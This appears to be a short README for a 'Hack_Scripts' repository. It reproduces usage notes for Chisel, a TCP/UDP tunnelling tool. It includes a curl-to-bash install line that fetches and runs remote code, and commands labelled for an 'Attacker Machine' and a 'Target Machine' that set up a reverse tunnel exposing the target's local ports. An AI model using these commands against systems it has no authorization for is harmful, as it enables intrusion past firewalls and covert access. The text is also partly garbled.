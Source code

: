# Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  --> Java
  --> Python
  --> Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

# Usage

$ chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
  server - runs chisel in server mode
  client - runs chisel in client mode
    
  Read more:
  https://github.com/jpillora/chisel
    
chisel server -p 9000 --reverse -v   >> Run in Attacker Machine\n
chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>   >> Run in Target Machine
 

# 
